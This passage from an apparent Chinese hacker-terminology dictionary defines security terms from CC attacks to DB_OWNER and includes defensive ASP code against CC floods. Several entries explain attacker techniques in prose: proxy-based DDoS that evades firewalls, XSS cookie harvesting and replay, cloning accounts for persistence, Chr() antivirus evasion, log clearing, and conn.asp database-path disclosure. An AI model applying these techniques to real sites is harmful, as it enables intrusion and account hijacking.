

总体来说，CCProxy 可以完成两项大的功能：代理共享上网和客户端代理权限管理。只要局域网内有一台机器能够上网，其他机器就可以通过这台机器上安装的 CCProxy 来代理共享上网，最大程度地减少了硬件费用和上网费用。使用方法很简单，只需要在 CCProxy 代理服务器软件里进行账号设置，就可以方便地管理客户端代理上网的权限。

## CC（攻击）攻击方法与行为

CC 是 Challenge Collapsar 的简称，是一款新型的 DDOS 工具，如图 C-15 所示，由邪恶八进制成员 Fr.Qaker 开发。



其基本原理是利用代理服务器模拟大量用户不停地进行访问脚本页面及数据库操作，使服务器保持 CPU 高利用率，直至系统崩溃。它的攻击效率非常高，能够利用有限的带宽以及机器资源从单台机器发起强大的 DDOS 攻击，通过自定义规则使防火墙无法阻挡。

具体来说，CC 利用的是大量并发的数据库查询请求。在论坛上，一个用户看帖子时，系统至少需要做两次判断：一是判断此用户是否有看帖子的权限，二是将帖子的内容显示出来。这样的过程至少访问了两次数据库，如果数据库的体积有 200MB，系统很可能就要在这 200MB 数据空间中搜索一遍，这需要消耗一些 CPU 的占用率。如果我是查找一个关键字，那么所需的时间和消耗的 CPU 占用率会更多，因为搜索关键字会对库中所有的数据进行一次判断。

CC 就是充分利用了这个特点，模拟大量用户不停地进行访问，同时使用代理可以有效地隐藏自己的身份，也可以绕开所有的防火墙。因为基本上所有的防火墙都只是检测并发的 TCP/IP 连接数目，超过一定数目频率就会被认为是拒绝服务攻击。但是 CC 通过代理，每个 IP 只并发一定数量的连接，这样就不会被防火墙阻止。

使用代理攻击还能很好地保持连接，我们在发送了数据后，代理帮我们转发给对方服务器，这时即使断开我们的连接，代理还会继续保持着和对方连接。现有的硬件防火墙一般是无法防御 CC 攻击的，因为 CC 所发送的请求都是合法的，只不过这些“合法”的请求过于多且经过精心设计。我们可以用以下方法进行防范：

- 1. **使用 Cookie 认证。** 虽然 CC 里面也允许 Cookie，但是这里的 Cookie 是所有连接都使用的，所以启用 IP+Cookie 认证就可以了。
- 2. **利用 Session。** 这个判断比 Cookie 更加方便，不光可以 IP 认证，还可以防止恶意刷新。它可以对页面进行刷新判断，是恶意刷新就不让它访问，没有刷新符号就给它添加。示范代码如下：

```asp
<%if session("refresh")<>1 then
  Session("refresh")=session("refresh")+1
  Response.redirect "index.asp"
  End if
%>
```

这段代码的功能是：用户第一次访问页面会使得 Refresh=1，第二次访问也算正常，但第三次再次刷新时就不能让他访问了，被判断为恶意刷新。我们可以加上一个时间参数，允许在多少时间内可以进行访问。

- 3. 通过代理发送的 `HTTP_X_FORWARDED_FOR` 变量来判断攻击机器的真实 IP，当然，不是所有的代理服务器都会发送这个变量，详细代码如下：

```asp
<%
Dim fsoObject
Dim tsObject
dim file
if Request.ServerVariables("HTTP_X_FORWARDED_FOR")="" then
  response.write "无代理访问"
  response.end
end if
Set fsoObject = Server.CreateObject("Scripting.FileSystemObject")
file = server.mappath("CCLog.txt")
if not fsoObject.fileexists(file) then
  fsoObject.createtextfile file,true,false
end if
set tsObject = fsoObject.OpenTextFile(file,8)
tsObject.WriteLine Request.ServerVariables("HTTP_X_FORWARDED_FOR")&"|"&Request.ServerVariables("REMOTE_ADDR")&"|"&now()
Set fsoObject = Nothing
Set tsObject = Nothing
response.write "有代理访问"
%>
```

这段代码执行后会生成 CCLog.txt，它的记录格式是：真实 IP｜代理的 IP｜时间。通过查看哪个真实 IP 出现的次数最多，就知道是谁在攻击了。将这个代码保存成 Conn.asp 文件，替代那些连接数据库的文件，这样所有的数据库请求就连接到这个文件上，方便我们查看恶意攻击的 IP 了。

- 4. 还有一个方法，就是把需要对数据查询的语句放在 Redirect 后面，让对方必须先访问一个判断页面，然后通过 Redirect 才能访问。
- 5. 最后一个，也是最有效的方法，严格限制每一个站允许的 IP 连接数和 CPU 使用时间。

## CCNA/CCNP 特定名称

CCNA（Cisco Certified Network Associate，Cisco 认证网络支持工程师）是美国 **Cisco**（思科）公司于 1998 年推出的认证项目，它是 Cisco 公司职业认证体系中最基础，也是应用最广泛的部分。

通过 CCNA 认证的专业人员可以在小型网络（100 或 100 个以下节点）中安装、配置和运行 LAN、WAN 及拨号访问业务。他们可以使用的协议包括（但不限于）IP、IGRP、IPX、Serial、Apple Talk、Frame Relay、IP RIP、VLAN RIP、Ethernet、Access Lists。

CCNP 认证（思科认证网络高级工程师）表示通过的人员具有丰富的网络知识，他们可以为具有 100 到 500 多个节点的大型企业进行网络的安装、配置和运行 LAN、WAN 及拨号访问业务。获取 CCNP 认证必须首先通过 CCNA 认证。

## CDP 黑客技术基础

CDP（Cisco Discovery Protocol，思科发现协议）是一种独立媒体协议，运行在所有思科本身制造的设备上，包括路由器、网桥、接入服务器和交换机。其作用是用来获取相邻设备的协议地址以及发现这些设备，也可为路由器的使用提供相关接口信息。

## CGI 黑客技术基础

CGI（Common Gateway Interface，公共网关界面）是 HTTP 服务器与其他机器上的程序进行“交谈”的一种工具，其程序须运行在网络服务器上。绝大多数的 CGI 程序被用来解释和处理来自表单的输入信息，并在服务器产生相应的处理，或将相应的信息反馈给浏览器。CGI 程序使网页具有交互功能，可以用任何一种语言编写，只要这种语言具有标准输入、输出和环境变量。

CGI 允许 Web 服务器运行外部应用程序，从而访问数据库等一些外部资源，并产生 HTML 文件给浏览器。但每次请求，CGI 都必须重新启动程序，这影响了响应速度，且 CGI 程序不能被多个客户请求共享，影响了各种资源的使用效率。

为了克服这些缺点，一些 Web 服务器厂商开发出了专用的 API，这样就允许程序员写程序来扩展服务器的功能。API 相对于 CGI 来说，它与 Web 服务器的结合更加紧密，占用资源较少，运行的效率大有提高。

编写 CGI 程序常用的语言有 C、PERL、VC++ 等，由于对程序员的要求较高，且编写困难，故现在已很少被采用。

### chmod

这是 Linux/Unix 的操作命令，用来改变文件或目录的访问权限。其使用方式如下：

- **使用权限**：所有使用者
- **使用方式**：`chmod [-cfvR] [--help] [--version] mode file...`
- **说明**：该命令有两种用法：一种是包含字母和操作符表达式的文字设定法；另一种是包含数字的数字设定法。

### Chm

Chm 是英语“Compiled Help Manual”的简写，即“已编译的帮助文件”。CHM 文件格式是微软 1998 年推出的基于 HTML 文件特性的帮助文件系统，也是一种超文本标识语言。它支持大多数被 IE 浏览器支持的文件及技术，如 JavaScript、VBScript、ActiveX、Java Applet、Flash，常见图形文件（GIF、JPEG、PNG）、音频视频文件（MID、WAV、AVI）等等，并可通过 URL 与 Internet 联系在一起。

### Chm 网页木马

Chm 网页木马是利用 chm 格式漏洞做成的，影响 Win2000 SP4、IE6.0 SP2 及 XP SP1。

### Chr()

VBS 脚本常用函数的一种，可以将指定的 ASCII 码值转换为字符。具体说明如下：

- **语法**：`Chr(charcode)`
- **描述**：返回与指定的 ANSI 字符代码相对应的字符。Charcode 一般是 ASCII 码。

这个函数在渗透或入侵的过程中会发挥很大的作用，例如 PHP 注入不允许输入引号，就可以利用 `chr` 这个函数进行转换。

在 XSS 攻击中，有时也可以利用 Chr() 转换一些敏感的字符；对于一些被杀毒软件追杀的 VBS 脚本（如下截者）而言，也可以利用 Chr() 进行简单的免杀处理。

## Challenge/Response 响应机制 —— 黑客技术基础

计算机网络中最常用的一种安全认证方式，俗称挑战响应机制，SMB 等许多协议都是这样的一个认证过程。主要过程如下：

- 1. A 机器试图访问 B 机器某共享资源的时候，A 机器会发送当前登录的用户名和密码，由 B 机器进行验证。
- 2. 此时 B 机器会随机产生 8 字节的挑战（Challenge），送往 A 机。
- 3. A 在本地将自己的密码加密为散列（HASH），然后再用 HASH 对获得的 Challenge 加密，这就得到了一个 RESPONSE，接着再发送给 B。
- 4. B 获得了 RESPONSE 后，再将用户名、Challenge、RESPONSE 这三样东西进行校验。
- 5. 对比后决定是否通过认证。

## Cisco —— 特定名称

Cisco 即思科系统公司，它是全球最大的网络设备制造商。在中国的骨干网络中，80% 都是使用思科公司的设备，它也是互联网解决方案的领先提供者，其设备和软件产品主要用于连接计算机网络系统。

1984 年 12 月，思科系统公司在美国成立，创始人是斯坦福大学的一对教师夫妇：计算机系的计算机中心主任莱昂纳德·波萨克（Leonard Bosack）和商学院的计算机中心主任桑蒂·勒纳（Sandy Lerner）。夫妇二人设计了叫做“多协议路由器”的联网设备，用于斯坦福校园网络（SUNet），将校园内不兼容的计算机局域网整合在一起，形成一个统一的网络。这个联网设备被认为是联网时代真正到来的标志。

## Clearlog —— 黑客工具

Clearlog 是黑客入侵后用来清除系统日志的脚本。

## ClipBook —— 操作系统及其相关

ClipBook 即剪贴板，用来存储用户复制和剪切操作的内容，同时也是 Windows 中的一个服务，此服务的描述是：

**启用剪贴板查看器以储存信息并与远程计算机共享。如果这个服务被停止，剪贴板查看器将无法与远程计算机共享信息。如果这个服务被停用，任何明确依存于它的服务将无法启动。**

把剪贴板内的信息和其他计算机进行分享，这是一般使用不到的，大家可以停用此服务。

## 黑客术语图文辞典 → CMD

## CLONE —— 克隆账户（渗透技术）

克隆账户一般是入侵者攻占一台主机后保住战果的措施。采用的方法是将系统中管理员的信息覆盖到不常用的默认账户中，这样就可以把这个账户提升到管理员权限，但从表面上来看，这个账户还是和原来一样。

例如将 GUEST 克隆成 Administrator 账户后，用 **Net user** 命令查询 Guest 账户时，它还是属于 Guests 组，但其已经具有 Administrators 组的权限了，登录后也是 Administrator 的桌面。

一般可以通过直接操纵注册表实现克隆账户，但也有专门的工具，例如 CA。

## CLOSE-WAIT（黑客技术基础）

CLOSE-WAIT 表示连接进程处在等待从本地用户发来的中断请求的状态（TCP 的其他连接情况请见 **TCP 连接状态** 词条）。在 CMD 下用 **netstat -an** 命令可以查看本地所有的连接，一般都可以看到此状态，如图 C-16。



图 C-16

## CLSID（操作系统及其相关）

CLSID 是 class ID 的缩写。对于每个组件类，都需要分配一个唯一表示它的代码，就是 ID。为了避免冲突，微软使用 GUID 作为 CLSID，有生成 GUID 的函数，主要是根据当时的时间、机器地址等信息动态产生，理论上可保证全球唯一。

## CMD（操作系统及其相关）

cmd.exe 是微软 Windows 系统的命令行程序，类似于微软的 DOS 操作系统。cmd.exe 是一个 32 位的命令行程序，运行在 Windows NT/2000/XP 上。但它不是纯粹的系统程序，如果终止它可能会导致不可知的问题。

打开方式：单击“开始”→“运行”，输入“cmd”后回车确定。

## CMS（特定名称）

CMS 是 Content Management System 的缩写，意为“内容管理系统”。

其实是一个很广泛的称呼，从一般的博客程序、新闻发布程序，到综合性的网站管理程序都可以被称为内容管理系统。大家经常见到的 XX 新闻管理系统，其实就是典型的 CMS。

CMS 可以加快网站开发的速度和减少开发的成本。同时，CMS 的功能并不只限于文本处理，它也可以处理图片、Flash 动画、声像流、图像，甚至电子邮件档案。

对网站内容管理是该系统的最大优势，它流程完善、功能丰富，可把稿件分门别类并授权给合法用户编辑管理，而不需要用户去理会那些难懂的 SQL 语法。CMS 让使用者可以更轻松地发布并修改信息，所以在各个地方都能见到它的身影，如著名的动易 CMS。

## CNNSC 远程控制｜黑客工具

CNNSC 是一款远程控制工具，操作界面如图 C-17 所示。它采用 DLL 插入型服务端，可以插入资源管理器和 IE。其拥有超强的穿防火墙能力，支持最新 FTP 更新、IP 自动上线等功能。可实现文件传输监控、屏幕监控、摄像头监控、注册表监控、服务监控、进程监控、连接监控、声音监控、共享探测、端口映射、网络嗅探等。



## ColdFusion｜WEB 及相关技术

Coldfusion（直译：冷聚变）最早是由 Allaire 公司开发的一种应用服务器平台，其运行的 CFML（ColdFusion Markup Language）是针对 Web 应用的一种脚本语言。文件以 .cfm 为扩展名，在 ColdFusion 专用的应用服务器环境下运行。

在 Allaire 公司被 Macromedia 公司收购以后，推出了 Macromedia ColdFusion 5.0。类似于其他的应用程序语言，cfm 文件被编译器翻译为对应的 C++ 语言程序，然后运行并向浏览器返回结果。

### Compiz Fusion｜操作系统及其相关

Compiz Fusion 是由两个著名的复合窗口 Beryl 和 Compiz Extras 管理器合并而成的。Compiz 可以提供许多新视觉效果，而且其扩展性很好，可以非常容易地通过插件来添加新的功能。除了 Gnome 和 KDE，任何基于 X Window System 的桌面环境都可以支持。

## CONTENT-LENGTH｜黑客技术基础

HTTP 客户程序（例如浏览器）向服务器发送请求时，必须指明 HTTP 请求头（HttpServletRequest）的请求类型。Content-Length 类型表示内容长度，只有当浏览器使用持久 HTTP 连接时才需要这个数据。

如果你想要利用持久连接的优势，可以把输出文档写入 ByteArrayOutputStream，完成后查看其大小，然后把该值放入 Content-Length 头，最后通过 `byteArrayStream.writeTo(response.getOutputStream())` 发送内容。

## Conn.asp｜脚本语言

Conn 是 connection 的简写，即连接。它一般是许多 ASP 程序中用来连接数据库的文件，如果设置不当，攻击者可以通过访问 Conn.asp 文件来暴露出数据库的路径，详情请见 **CONN ASP 暴库法**。

## Conn.asp 暴库法｜攻击方法与行为

Conn.asp 暴库法是一种常用的暴露数据库路径甚至是密码的方法。conn.asp 作为数据库连接文件，里面包含了被调用数据库的路径及名称等。如果是调用 MSSQL 数据库，那么还会含有 SQL 连接的用户名及密码等内容。另外，数据库连接文件的名字并不都是 conn.asp，有的系统可能是别的名称。

一般利用方法是直接访问 conn.asp 这个文件。因为 conn.asp 作为数据库连接文件，里面包含了数据库与调用文件的相对路径。相对路径就是相对于我们服务器管理 WEB 的根目录的路径。比如 IIS 根目录为 D:\wwwroot\，那么在这个目录下有一个 inc 目录，现在要访问 inc 这个目录下的文件时，只需在浏览器中输入 http://127.0.0.1/inc，而不是输入 http://127.0.0.1/wwwroot/inc。

这里的 inc 目录就是相对于 wwwroot 为根目录的一级目录，记着是“相对于”；而 inc 这个目录的绝对路径是 D:\wwwroot\inc，是一个二级目录，记着是“绝对路径”。

假设现在 IIS 上架构了一套 BBS 系统，系统的 conn.asp 放在根目录下的 inc 目录下，而我们许多调用 conn.asp 的文件都是放在根目录下的。所以，考虑到执行目录的不同，在 conn.asp 文件中数据库的相对地址就写成了“数据库所在目录/数据库名”的形式。

一般的 BBS 系统默认的 conn.asp 文件代码中就包括数据库的路径。当 conn.asp 被根目录下的其他文件调用时，它连接的是根目录中 data 目录下的 *.mdb 文件；而当用户直接访问 inc 目录下的 conn.asp 时，根据 conn.asp 中的内容，服务器就会去请求连接 inc 目录下的 data 目录，那么相对路径就变成了 inc/data。

但是 inc 目录下并没有 data 这个目录和相关文件，所以服务器就会报错，显示出出错信息。我们把这类漏洞称为 conn.asp 暴库，准确地说，应该叫做“数据库连接文件暴库漏洞”。

### Cookie｜黑客技术基础

Cookie（Cookies）是一种能够让网站服务器把少量数据储存到客户端的硬盘，或是从客户端的硬盘读取数据的一种技术。

当用户浏览某网站时，会在硬盘中生成一个非常小的文本文件，它可以记录用户的 ID、密码、浏览的网页、停留的时间等信息。当用户再次来到该网站时，网站通过读取 Cookies，得知用户的相关信息，就可以做出相应的动作，如在页面显示欢迎的标语，或者让用户不用输入 ID、密码就直接登录等。

## Cookie 欺骗｜黑客技术基础

Cookie 欺骗是指恶意攻击者把截获的用户 Cookie 向服务器提交并通过验证，甚至不需要知道这些字符串的含义，就可以冒充用户的身份登录网站。Cookie 欺骗实现的前提条件是服务器的验证程序是基于 Cookie 进行验证的，并且冒充者要获得被冒充用户的 Cookie 信息。

XSS 的技术有一个主要的功能就是获取 Cookies。如果一个论坛允许使用 HTML 代码或 Flash 标签，就可以利用这些技术收集 Cookie 的代码放到论坛里，然后给帖子取一个吸引人的主题，写上有趣的内容，很快就可以收集到大量的 Cookie。（详情请见 XSS）

收集到 Cookie 后，利用一些 Cookie 修改工具，如老兵的 Cookie 欺骗浏览器等，修改本身的 Cookie，使自己的 Cookie 跟收集的 Cookie 一样，这样再访问网站时就可以顺利登录，并具有被冒充者的权限了。

## Cookie 注入｜攻击方法与行为

指利用 Cookie 方式提交数据进行注入。在 ASP 中，Request 对象获取客户端提交数据的方式一共有三种，分别是 Get、Post、Cookie。最常用的是 Get 和 Post 这两种方式，同时 Request 对象可以不通过集合来获得数据。一般省略具体的集合名称时，ASP 是按 QueryString（Get）、Form（Post）、Cookie、ServerVariables 集合的顺序来搜索的。

由于 Cookie 是保存在客户端的一个文本文件，可以进行修改，攻击者只要构建合适的 Cookie 就可以利用 Request.Cookie 方式来提交变量的值，从而利用系统的漏洞进行注入攻击。

### Crack｜特定名称

对于这个名词，在计算机领域指代的意思一般为“破解”。而拥有这种技术的人被称为 Cracker，即破解者。许多资料大家可以从“黑手”每期的 Cracker 栏目中找到。

### CRC｜黑客技术基础

在远距离数据通信中，为确保高效而无差错地传送数据，必须对数据进行校验，即差错控制。CRC（Cyclic Redundancy Check/Code，循环冗余校验）可以对一个传送数据块进行校验，是一种高效的差错控制方法，这种校验一般采用多项式编码方法。

## Cron｜操作系统及其相关

在 Linux 系统中，计划任务一般是由 cron 承担，我们可以把 cron 设置为开机时自动启动。cron 启动后，它会读取它的所有配置文件（全局性配置文件 /etc/crontab，以及每个用户的计划任务配置文件），然后会根据命令和执行时间来按时调度工作任务。

## CRON JOB｜操作系统及其相关

指 CRON 里建立的一个脚本，即一个调度工作任务的命令。

## CROSS SITE SCRIPT｜攻击方法与行为

XSS 的全称，即跨站脚本攻击。第一个单词首位是 C，为什么在缩写时变成了 X 呢？这是因为 CSS 是层叠样式表（CASCADING STYLE SHEETS）的缩写，为了避免混淆，所以用和 CROSS 发音近似的 X 来代替。（详情见 XSS）

## Crypto++ 库｜特定名称

Crypto++ 库是一个开源项目，也是免费使用的。由于它是一个纯 C++ 实现的库，所以应用非常方便，库的结构清晰，文档也很健全。Crypto++ 库提供了很多密码学算法的实现。

## Cscript｜脚本

CScript 是 Windows 自带的小型 VBS 脚本解释器。

### CSDN｜特定名称

CSDN 是 “Chinese Software Developer Network” 的缩写，即“中国软件开发联盟”。CSDN 的网站主要面向 Windows 用户群和开发用户，它也是中国最大的开发者技术社区和《程序员》刊物的官方网站，属于集多种项目于一体的大型综合性 IT 门户网站。它有非常强的专业性，其会员囊括了中国地区 90% 以上的优秀程序员，是至今为止在 IT 技术交流网站中的国内第一站。

### CSRSS｜操作系统及其相关

Csrss 或者 csrss.exe 是微软客户端/服务端运行时子系统的一部分，该进程管理 Windows 图形相关任务。这个程序对用户系统的正常运行是非常重要的，但 csrss.exe 也有可能被 W32.Netsky.AB@mm、W32.Webus Trojan、Win32.Ladex.a 等病毒创建。

这些病毒通过 E-mail 邮件进行传播，当用户打开附件时即被感染。它们会在受害者机器上建立 SMTP 服务，用以自身传播，并允许攻击者访问用户的计算机，窃取密码和个人数据。

### CSRF｜攻击方法与行为

CSRF（Cross-site request forgery，跨站请求伪造）也被称为 “one click attack” 或者 session riding，通常缩写为 CSRF 或者 XSRF。尽管听起来像跨站脚本（XSS），但它与 XSS 非常不同，并且攻击方式几乎相左。XSS 是利用站点内的信任用户，而 CSRF 则通过伪装来自受信任用户的请求，以此利用受信任的网站。

与 XSS 攻击相比，CSRF 攻击往往不太流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比 XSS 更具危险性。

### CSS｜黑客技术基础

CSS 的全称为 Cascading Style Sheets，中文意思是层叠样式表。CSS 语言是一种标记语言，它不需要编译，可以直接由浏览器执行（属于浏览器解释型语言）。在标准网页设计中，CSS 负责网页内容（XHTML）的表现。

CSS 文件也可以说是一个文本文档，它包含了一些 CSS 标记，其文件必须使用 .css 为文件后缀名。网页设计人员可以通过简单地更改 CSS 文件来改变网页的整体表现形式，以此减少制作网页的工作量。

### Cygwin｜操作系统及其相关

Cygwin 是一个在 Windows 下模拟 Linux 环境的工具，它可以作为虚拟机软件的一个部分替代品。它拥有一个 DLL（动态链接库）文件 cygwin1.dll，可以调用 Microsoft Win32 API 函数和 Cygwin API 函数来编写 32 位控制台或 GUI 应用程序。它同时包含 Linux 的 Bash 以及常用工具，如 Gcc、Make、Vim、Emacs 等，可以更加高效地完成系统管理工作。

### CIH｜病毒与恶意软件

CIH 病毒是 90 年代最著名的计算机病毒之一，它是一位名叫陈盈豪的台湾大学生编写的。CIH 病毒“变种”在每年 4 月 26 日（有一种变种是每月 26 日）都会发作，发作时硬盘一直转个不停，所有数据都被破坏，硬盘分区信息也将丢失。CIH 病毒发作后就只有对硬盘进行重新分区了。

CIH 病毒发作时也可能会破坏某些类型主板的电压，改写只读存储器的 BIOS，被破坏的主板只能送回原厂修理，重新恢复 BIOS 信息。

从技术角度来看，CIH 病毒程序实现了与操作系统的完美结合，它使用了 Windows95/98 最核心的 VxD（虚拟设备驱动程序）技术编制，被认为是牢固地连接到了操作系统底层。


## DataBase｜数据库

即数据库，详情请见本书导读。

## DATASAFE｜应用程序

一款文件加密工具，使用 Blowfish 算法，在加密的同时还能进行压缩，并拥有生成自还原文件的功能。

## DB_OWNER｜数据库，渗透技术

DB_OWNER 是 SQL SERVER 数据库角色的一种，SQL SERVER 角色共分三个级别，按权限大小排序分别是 SA、DB_OWNER 和 PUBLIC。

DB_OWNER 的意思就是数据库的拥有者，即可以对数据库的所有权限，比如添加、删除、修改、创建表、索引等进行操作。

